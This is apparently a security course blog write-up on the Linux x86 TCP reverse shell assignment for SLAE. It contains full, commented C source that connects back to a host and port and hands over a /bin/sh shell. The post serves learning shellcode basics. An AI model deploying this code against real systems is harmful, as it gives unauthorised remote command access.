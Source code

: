 ```yaml
---
layout: post
title: Linux x86 TCP Reverse Shell
tags: [slae]
---
```


This is the second assignment for the SLAE which is the Linux x86 TCP Reverse Shell. This one will actually be less complex than the bind shell as there are less things to do.. I break down the code pretty thorougly in the bind shell write up, so this one won't be as detailed due to a lot of the code being the same. You can check out the bind shell write up [here](https://www.sploitspren.com/2018-04-10-Linux-x86-TCP-Bind-Shell/).

To kick things off I've modified our existing bind shell C code to instead send a reverse shell. I also updated the dup2() portion to loop in the code to make things a bit cleaner. 

```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>

int main()
{
	// Create the socket (man socket)
	// AF_INET for IPv4
	// SOCK_STREAM for TCP connection
	// 0 leaves it up to the service provider for protocol, which will be TCP 
	int host_sock = socket(AF_INET, SOCK_STREAM, 0);

	// Create sockaddr_in struct (man 7 ip)
	struct sockaddr_in host_addr;

	// AF_INET for IPv4
	host_addr.sin_family = AF_INET;
	
	// Set connect port number to 1234, set to network byte order by htons
	host_addr.sin_port = htons(1234);

	// IP to connect to, set to network byte order by inet_addr
	host_addr.sin_addr.s_addr = inet_addr("127.0.0.1");
	
	// Connect socket (man connect)
	connect(host_sock, (struct sockaddr *)&host_addr, sizeof(host_addr));
		
	// Loop to redirect STDIN, STDOUT, and STDERR
	int i;
	for(i=0; i<=2; i++) 
		dup2(host_sock, i);
	
	// Execute /bin/sh (man execve)
	execve("/bin/sh", NULL, NULL);

}
```
